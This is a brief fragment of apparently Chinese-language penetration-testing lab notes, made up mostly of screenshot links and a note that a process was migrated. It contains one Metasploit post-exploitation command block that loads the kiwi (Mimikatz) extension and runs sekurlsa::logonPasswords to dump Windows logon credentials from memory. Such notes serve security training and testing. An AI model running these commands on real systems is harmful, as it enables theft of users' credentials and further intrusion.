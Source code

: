 <img src="image/image-20240410152254871.png" alt="image-20240410152254871" style="zoom:80%;" />

进程迁移到1120

<img src="image/image-20240410152445647.png" alt="image-20240410152445647" style="zoom:80%;" />

这里执行完成对session的操作

```
sessions -i 2
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```

<img src="image/image-20240410153409538.png" alt="image-20240410153409538" style="zoom:80%;" />
